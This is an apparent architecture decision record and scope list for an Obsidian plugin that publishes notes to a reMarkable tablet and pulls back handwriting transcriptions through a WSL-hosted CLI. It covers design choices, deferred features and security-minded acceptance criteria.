| CLI invocation | **`python -m obsidian_rm_bridge`**, not `ormb` shim | Avoids PATH lookup, shell activation, `.cmd` EINVAL, and WSL non-login PATH issues. `__main__.py` already supports this. |
| WSL bridge | **`wsl.exe --exec` argv-only** | No shell. No `bash -c`. Note filenames are filenames, not code. |
| PDF rendering | **Playwright (in ormb CLI)** | Already in the CLI. No Node/Electron PDF dependency in the plugin. Chromium lives in WSL distro. |
| Vision LLM | **OpenRouter (hard requirement for pull)** | Vision transcription is the differentiator. Publish works without a key. Open source = PRs for other providers. |
| Vault path | **Auto-detected, root translated once, notes passed vault-relative** | No manual config. `getBasePath()` + `winToWsl` for T-WSL. `file.path` already `/`-separated. |
| API key storage | **CLI's 0600 `config.toml`, outside the vault** | Plugin stores no secret. Key lives in WSL home, outside Obsidian's reach. `config set-key` reads from stdin. |
| Annotation writes | **Plugin owns all vault writes via `vault.process`** | CLI `--emit json` returns structured data. Plugin applies through Vault API — atomic against editor, preserves undo, no duplicate sections. |
| Republish | **`--on-exists=fail` by default** | Protects annotations from accidental destruction. `content-only` available for deliberate updates. |
| Pairing | **Terminal-only for v1** | rmapi pair needs a TTY. No proven TTY bridge across `wsl.exe`. Settings tab shows copyable command. |
| Distribution | **GitHub releases → community store** | Manual zip install first, community plugin store after review (Phase 5c). |
| Monorepo | **`plugin/` subfolder in `obsidian-rm-bridge` repo** | Keeps CLI and plugin versions in lockstep. `plugin/` has its own build pipeline. |

---

## What We're NOT Building

### Not in v1

- **`pull --all`** — Broken for subfolder vaults. Requires frontmatter doc-id mapping (v2).
- **Pairing in the plugin** — Terminal-only. No Modal, no stdin bridge across `wsl.exe`.
- **Setup in the plugin** — Terminal-only. `sudo playwright install-deps` cannot be driven from a non-TTY plugin spawn.
- **`autoPublishOnSave`** — Destroys ink on republish.
- **Default hotkeys** — Against Obsidian community plugin guidelines.
- **API key stored in the plugin** — No `data.json` secret. CLI's 0600 config is the single source of truth.
- **Snap/Flatpak Obsidian support** — Sandboxed spawn is unreliable. Detected and rejected.
- **WSL1 support** — Playwright Chromium often fails. Doctor warns if detected.
- **T-MIXED topology** — CLI split across Windows and WSL is undebuggable.
- **Full TypeScript port of the CLI** — No reason until the CLI has traction.
- **Mobile support** — Obsidian mobile doesn't expose Node.js `child_process`.

### Not in scope, ever

- **rmfakecloud support** — `ormb` uses rmapi which supports it; plugin doesn't expose it but doesn't block it.
- **Marks-only mode** — Different product. Ours is handwriting transcription.

---

## Acceptance Criteria

### Architecture
- [x] ARB reflects all 4 prior stages. Contradictions resolved with explicit rulings.
- [x] Security model chapter defines trust boundaries and invariants.
- [x] Consolidated risk register covers all 19 risks with severity, likelihood, mitigation, and phase.
- [x] C4 diagrams (Context, Current Container, Target Container) and Data Flow Sequence diagram included.
- [x] CLI contract changes specified before any plugin code.
- [x] Delivery plan reordered: 5a-0 (CLI) → 5a (publish, T-WSL) → 5b (pull) → 5c (polish) → 5d (v2).

### Security
- [x] No API key in the plugin (`data.json`). CLI owns it in 0600 `config.toml`.
- [x] WSL bridge is `wsl.exe --exec` argv-only. No shell, no `bash -c`.
- [x] Path containment on both sides: plugin rejects `..`/NUL; CLI asserts `is_relative_to(vault)`.
- [x] Renderer hardened: mermaid `strict`, Playwright route filter, no out-of-vault `file://`.
- [x] Config writes hardened: `fchmod` + `O_NOFOLLOW`.
- [x] Pull is emit-only; plugin writes via `vault.process` with marker-block replace.
- [x] Pairing stays terminal-only.

### Platform
- [x] T-WSL is the primary topology. macOS/Linux are first-class peers (5c). Native Windows is secondary (5c).
- [x] Path translation is a pure function with clear reject list.
- [x] `isDesktopOnly: true` in manifest.
- [x] No default hotkeys.
- [x] `versions.json` required for community store submission.

### Product
- [x] `autoPublishOnSave` removed.
- [x] `pull --all` removed from v1.
- [x] Business outcome restated: "one-time terminal setup, zero-terminal daily use."
- [x] README disclosures: network use, third-party data egress, external binary execution.
- [x] Obsidian-specific markdown limitations documented.